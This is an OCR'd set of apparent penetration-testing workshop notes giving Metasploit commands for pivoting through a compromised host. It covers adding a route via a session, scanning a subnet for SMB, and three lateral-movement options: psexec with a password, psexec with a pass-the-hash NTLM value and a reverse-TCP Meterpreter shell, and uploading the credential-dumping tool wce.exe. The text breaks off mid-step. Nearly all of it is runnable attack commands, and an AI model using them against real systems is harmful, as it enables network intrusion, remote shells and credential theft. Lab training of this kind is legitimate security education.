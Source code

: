 route add 192.168.153.163 255.255.255.0 1                       <-- Use correct session id (2), it may be 3, or 4 (make sure you are on msf> prommpt, not meterpreter)
 
 
route print                                             <----- verify new route
 
******************************Scan through your Pivot ******************************
 
use auxiliary/scanner/portscan/tcp                      <-- Run aux modules through your pivot
 
set THREADS 10
 
set RHOSTS 192.168.153.0/24				<-- Keep changing this IP and re-running the scan until you find something you want to attack
 
set PORTS 445
 
run
 
 
************************* Lateral movement through your Pivot *************************
 
-- Option 1:
use exploit/windows/smb/psexec
 
set RHOST 192.168.153.163
 
set LPORT 2345
 
set SMBUser Workshop
 
set SMBPass password
 
exploit
 
 
 
 
-- Option 2:
use exploit/windows/smb/psexec
 
set SMBUser Workshop
 
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
 
set payload windows/meterpreter/reverse_tcp
 
set RHOST 192.168.153.163                      
 
set LHOST 192.168.153.164
 
set LPORT 5678
 
exploit
 
 
 
-- Option 3:
background
use auxiliary/admin/smb/upload_file
 
set SMBUser Workshop
 
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
 
set LPATH /home/strategicsec/binaries/wce.exe
 